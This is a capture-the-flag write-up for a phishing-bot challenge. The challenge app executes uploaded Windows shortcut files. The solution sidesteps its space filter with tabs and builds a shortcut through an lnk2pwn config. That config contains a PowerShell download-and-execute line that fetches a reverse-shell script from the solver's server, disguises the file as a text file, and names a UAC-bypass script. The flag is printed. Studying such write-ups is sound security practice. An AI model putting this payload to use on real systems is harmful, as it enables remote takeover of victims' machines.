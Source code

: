 # The king of phish (Victim bot)
We are given the following code
```python
import os
import uuid
import LnkParse3 as Lnk
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def index():
    source = open(__file__, 'r').read().replace("\n", "\x3c\x62\x72\x3e").replace(" ", "\x26\x6e\x62\x73\x70\x3b")
    return source


@app.route('/send', methods=['POST'])
def sendFile():
    if 'file' not in request.files:
        return 'No file part'
    file = request.files['file']

    if file.filename == '':
        return 'No selected file'
    data = file.stream.read()
    if not data.startswith(b"\x4c\x00"):
        return "You're a bad guy!"
    shortcut = Lnk.lnk_file(indata=data)
    if shortcut.data['command_line_arguments'].count(" "):
        return "File is killed by antivirus."
    filename = str(uuid.uuid4())+".lnk"
    fullname = os.path.join(os.path.abspath(os.curdir) + "/uploads", filename)
    open(fullname, "wb").write(data)
    clickLnk(fullname)
    return "Clicked."


def clickLnk(lnkPath):
    os.system('cmd /c "%s"' % lnkPath)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```
We can upload a LNK file which will be executed. The only limitation is the use of spaces in the command arguments, which we can bypass by using tab characters instead. To generate the payload we can use [lnk2pwn](https://github.com/tommelo/lnk2pwn) with the following config.json
```json
{
    "shortcut": {
        "target_path": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\PowerShell.exe",
        "working_dir": "C:\\Users\\usera\\Desktop",
        "arguments": "IEX(New-Object\tNet.WebClient).DownloadString('http://[OUR SERVER]/reverse_shell.ps1')",
        "icon_path": "C:\\Windows\\System32\\notepad.exe",
        "icon_index": null,
        "window_style": "MINIMIZED",
        "description": "a",
        "fake_extension": ".txt",
        "file_name_prefix": "b"
    },
    "elevated_uac": {
        "file_name": "uac_bypass.vbs",
        "cmd": "cmd.exe"
    }
}
```
Uploading this gives us a shell and we can get the flag from `C:\Users\usera\Desktop\flag.txt`.
The flag is `n1ctf{I'm_a_little_fish,_swimming_in_the_ocean}`
